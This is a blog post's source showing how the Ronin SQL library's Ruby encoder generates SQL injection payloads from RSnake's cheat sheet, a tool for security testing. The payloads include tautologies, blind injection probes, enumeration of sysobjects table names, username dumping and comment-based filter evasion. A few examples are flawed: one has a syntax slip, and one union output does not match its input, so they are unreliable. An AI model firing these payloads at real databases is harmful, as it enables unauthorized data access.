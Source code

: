 ```yaml
---
layout: post
title: RSnakes SQLi Cheat Sheet using Ronin SQL
author: postmodern
---
```


One of the planned features listed in the
[Spring Cleaning Campaign (2010)](/blog/2010/01/12/spring-cleaning.html)
was a simple Ruby->SQL encoder for the
[Ronin SQL](http://github.com/ronin-ruby/ronin-sql/) library, to replace the
overly complex Ronin SQL DSL. This encoder would format Ruby Integers,
Strings, Arrays and Hashes into fragments of proper SQL.

The Ruby->SQL encoder has gotten to the point
of being able to recreate most of the examples from
[RSnake's SQL Injection Cheat Sheet](http://ha.ckers.org/sqlinjection/):

Load `ronin-sql`:

{% highlight ruby %}
require 'ronin/code/sql' 
include Ronin

sql = Code.sql
{% endhighlight %}

Normal SQL Injection:

{% highlight ruby %}
sql[1, :or, 1, :eq, 1].to_s
# => "1 or 1 = 1"
{% endhighlight %}

Normal SQL Injection using encapsulated data:

{% highlight ruby %}
sql['1', :or '1', :eq, '1'].to_s
# => "'1' or '1' = '1'"
{% endhighlight %}

Blind SQL Injection creating an error using EXEC:

{% highlight ruby %}
sql[1, :exec, :sp_, [sql[:or, :exec, :xp_]]].to_s
# => "1 exec sp_ (or exec xp_)"
{% endhighlight %}

Blind SQL Injection detection:

{% highlight ruby %}
sql[1, :and, 1, :eq, 1].to_s
# => "1 and 1 = 1"
{% endhighlight %}

Blind SQL Injection to attempt to locate tablenames by brute-force
iteration through potential names:

{% highlight ruby %}
sql['1', :and, 1, :eq, [sql[:select, sql.count(:all), :from, :tablenames]]].to_s
# => "'1' and 1 = (select count(*) from tablenames)"
{% endhighlight %}

Using the `USER_NAME()` function in SQL Server to tell us if the user is
running as the administrator:

{% highlight ruby %}
sql[1, :and, sql.user_name(), :eq, 'dbo'].to_s
# => "1 and user_name() = 'dbo'"
{% endhighlight %}

Creating errors by calling fake tables:

{% highlight ruby %}
sql[1, :and, :non_existant_table, :eq, '1'].to_s
# => "1 and non_existant_table = '1'"
{% endhighlight %}

Dumping usernames:

{% highlight ruby %}
sql[:or, :username, :is, :not, nil, :or, :username, :eq].to_s
# => "or username is not null or username ="
{% endhighlight %}

Enumerating through database table names:

{% highlight ruby %}
sql[1, :and, sql.ascii(sql.lower(sql.substring( [sql[:select, :top, 1, :name, :from, :sysObjects, :where, :xtype, :eq, 'U']], 1, 1))), :gt, 116].to_s
# => "1 and ascii(lower(substring((select top 1 name from sysobjects where xtype = 'U'),1,1))) > 116"
{% endhighlight %}

Finding user supplied tables using the sysObjects table in SQL Server:

{% highlight ruby %}
sql[1, :union, :all, :select, [1,2,3,4,5,6,:name], :from, :sysObjects, :where, :xtype, :eq, 'U'].to_s
# => "1 union * select (1,2,3,4,5,6,name) from sysObjects where xtype = 'U'"
{% endhighlight %}

Bypassing filter evasion using comment tags:

{% highlight ruby %}
stmt = sql[1, :union, :select, :all, :from, :where]
stmt.to_s
# => "1 union select * from where"

stmt.spaces = false
stmt.to_s
# => "1/**/union/**/select/**/*/**/from/**/where"
{% endhighlight %}

<div class="note">
  <p>
    I cheated a little by leaving off the prefix/suffix tick-marks used in
    SQL injections, but you get the general idea.
  <p>
</div>

New SQL fragments are created using the `sql[...]` syntax, and new SQL
function calls are created with `sql.func_name`. Note, that you can nest
SQL fragments by using the `[sql[...]]` or `[sql.func_name(....)]` syntax.
